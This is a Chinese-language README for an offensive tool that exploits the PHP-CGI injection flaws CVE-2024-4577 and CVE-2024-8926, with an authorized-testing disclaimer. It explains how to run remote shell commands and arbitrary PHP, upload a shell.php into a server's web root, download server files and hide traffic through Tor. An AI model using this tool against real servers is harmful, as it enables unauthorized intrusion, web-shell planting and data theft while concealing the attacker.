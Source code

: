 # PHP-CGI Injector

🚀 **CVE-2024-4577 & CVE-2024-8926 Exploit Tool**

> 針對 **PHP-CGI 參數注入漏洞** 的自動化測試工具，支持 **CVE-2024-4577** 和 **CVE-2024-8926**，可進行 **命令執行、文件上傳、下載** 等操作。

---

## **📌 介紹**
本工具可用於測試 **PHP-CGI 環境中的參數注入漏洞**，並提供：
- ✅ **超酷的banner動畫**
- ✅ **自動掃描漏洞**
- ✅ **Tor隱藏攻擊流量**
- ✅ **多種攻擊模式**
- ✅ **支持多個Payload切換**
- ✅ **支持 `system()` 命令執行**
- ✅ **支持 `eval()`任意代碼執行**
- ✅ **支持上傳與下載檔案**
- ✅ **可自動記錄命令執行歷史 (`--log`)**
- ✅ **自動轉換輸出編碼，避免亂碼**

---

## **📜 免責聲明**
**本工具僅限於合法測試與學術用途，請勿用於未經授權的系統！**
> **⚠️ 非法使用將承擔法律責任！**

本工具僅供：
- 🔹 **企業紅隊滲透測試**
- 🔹 **CTF 安全研究**
- 🔹 **個人安全學習**
- 🔹 **其他取得合法授權之安全測試**

---

## **📥 安裝依賴**
本工具依賴以下 Python 套件，請先安裝：
```bash
pip install -r requirements.txt
```
或者手動安裝：
```bash
pip install requests requests-tor chardet urllib3 rich
```

---

## **🛠️ 使用方法**
### **📌 基本用法**
```bash
python exploit.py -u <目標網站> [--timeout=sec] [--log] [--payload num] [--tor]
```
範例：
```bash
python exploit.py -u http://example.com --timeout=30 --log --payload --tor
```

### **📌 參數選項**
| 參數 | 說明 | 範例 |
|------|------|------|
| `-u` | 指定目標網站 | `-u http://example.com` |
| `--timeout=sec` | 設定請求超時 (`1-120` 秒)，`0` 代表無限等待 | `--timeout=30` |
| `--log` | 啟用 Shell 模式的自動記錄 | `--log` |
| `--payload`  | 切換payload | `--payload` |
| `--tor`  | 使用tor路由 | `--tor` |
---

## **📌 操作模式**
當腳本找到漏洞後，會顯示選單：
```
[+] 找到漏洞入口 : /php-cgi/php-cgi.exe (漏洞: CVE-2024-4577)

[*] 當前目標: http://example.com/ (漏洞: CVE-2024-4577)
模式選擇:
1) Shell模式 (使用system()執行命令)
2) PHP自訂義模式 (使用eval()執行任意代碼)
3) 上傳檔案
4) 下載檔案
5) 切換攻擊目標
6) 離開程式
```

---

## **📌 模式詳解**
### **1️⃣ Shell 模式**
執行 **系統命令**：
```
shell> whoami
```
📂 **儲存輸出**
```
shell> whoami --save
```
```
shell> whoami --save C:\output\whoami.txt
```

---

### **2️⃣ PHP 自訂模式**
執行 **自訂 PHP 代碼**：
```
phpinfo();
EOF
```
📂 **儲存輸出**
```
phpinfo();
EOF --save
```
```
phpinfo();
EOF --save C:\output\info.html
```

---

### **3️⃣ 上傳檔案**
```
本地檔案路徑：C:\test\shell.php
目標完整路徑：
[*] 已自動設定上傳路徑為: C:/xampp/htdocs/shell.php
```
📂 **手動指定路徑**
```
目標完整路徑：C:\xampp\php\shell.php
```

---

### **4️⃣ 下載檔案**
```
遠端檔案路徑：C:\xampp\htdocs\index.php
```
📂 **檔案下載後儲存於 `download/`，若有重複，會自動添加編號**
```
[*] 檔案下載完成，儲存在 download/index.php
```

---

### **5️⃣ 切換攻擊目標**
```
輸入新目標URL: http://newtarget.com
```
🔹 **將重新測試漏洞**

---

### **6️⃣ 離開程式**
```
[*] 程式結束
```

---

## 更新日誌
| 版本 | 更新內容 |
|------|------|
| 1.1.2 | 修復命令與任意代碼執行時，編碼問題導致的錯誤。 |
| | 修復執行結果單次儲存默認本地檔案命名的邏輯問題。 |
| 1.2.0 | 修復tor路由連線問題。 |
| | 新增tor自動檢測與連線、Payload自選功能。 |
---

